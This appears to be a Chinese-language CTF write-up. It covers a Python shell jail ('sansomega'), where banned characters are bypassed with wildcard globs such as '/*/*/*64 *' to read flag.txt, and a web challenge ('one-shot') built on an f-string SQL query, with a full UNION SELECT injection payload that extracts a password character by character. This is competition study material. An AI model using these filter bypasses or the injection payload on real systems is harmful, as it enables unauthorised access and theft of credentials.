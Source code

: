 # Jail
### sansomega
```python
#!/usr/local/bin/python3
import subprocess

BANNED = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]'


def shell():
    while True:
        cmd = input('$ ')
        if any(c in BANNED for c in cmd):
            print('Banned characters detected')
            exit(1)

        if len(cmd) >= 20:
            print('Command too long')
            exit(1)

        proc = subprocess.Popen(
            ["/bin/sh", "-c", cmd], stdout=subprocess.PIPE, stderr=subprocess.STDOUT)

        print(proc.stdout.read().decode('utf-8'), end='')

if __name__ == '__main__':
    shell()

```

没有过滤$(),数字,但是过滤了\\没法8进制执行
\* 可以构造出来flag.txt

`/*/*/*64 *` 会解析为/bin/base64 /bin/x86_64  flag.txt

---
base32!!!竟然有这个命令

`/*/*/????32 *.*`

另一个解法,使用diff3

`/*/????3 ./* ./???`

another
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240411222144.png)

### javajail1
```python
BANNED = ['import', 'class', 'Main', '{', '}']
```




# web
### one-shot
流程,new_session生成一个表(随机密码),search来匹配这个表里的字符且只能search一次,guess需要输入密码
```python
    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
```
search的query参数存在sql注入
```bash
' UNION ALL SELECT substr(password, 1, 1) FROM table_id UNION ALL SELECT substr(password, 2, 1) FROM table_id UNION ALL SELECT substr(password, 3, 1) FROM table_id UNION ALL SELECT substr(password, 4, 1) FROM table_id UNION ALL SELECT substr(password, 5, 1) FROM table_id UNION ALL SELECT substr(password, 6, 1) FROM table_id UNION ALL SELECT substr(password, 7, 1) FROM table_id UNION ALL SELECT substr(password, 8, 1) FROM table_id UNION ALL SELECT substr(password, 9, 1) FROM table_id UNION ALL SELECT substr(password, 10, 1) FROM table_id UNION ALL SELECT substr(password, 11, 1) FROM table_id UNION ALL SELECT substr(password, 12, 1) FROM table_id UNION ALL SELECT substr(password, 13, 1) FROM table_id UNION ALL SELECT substr(password, 14, 1) FROM table_id UNION ALL SELECT substr(password, 15, 1) FROM table_id UNION ALL SELECT substr(password, 16, 1) FROM table_id UNION ALL SELECT substr(password, 17, 1) FROM table_id UNION ALL SELECT substr(password, 18, 1) FROM table_id UNION ALL SELECT substr(password, 19, 1) FROM table_id UNION ALL SELECT substr(password, 20, 1) FROM table_id UNION ALL SELECT substr(password, 21, 1) FROM table_id UNION ALL SELECT substr(password, 22, 1) FROM table_id UNION ALL SELECT substr(password, 23, 1) FROM table_id UNION ALL SELECT substr(password, 24, 1) FROM table_id UNION ALL SELECT substr(password, 25, 1) FROM table_id UNION ALL SELECT substr(password, 26, 1) FROM table_id UNION ALL SELECT substr(password, 27, 1) FROM table_id UNION ALL SELECT substr(password, 28, 1) FROM table_id UNION ALL SELECT substr(password, 29, 1) FROM table_id UNION ALL SELECT substr(password, 30, 1) FROM table_id UNION ALL SELECT substr(password, 31, 1) FROM table_id UNION ALL SELECT substr(password, 32, 1) FROM table_id ; --
```
返回所有password


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-11   21:16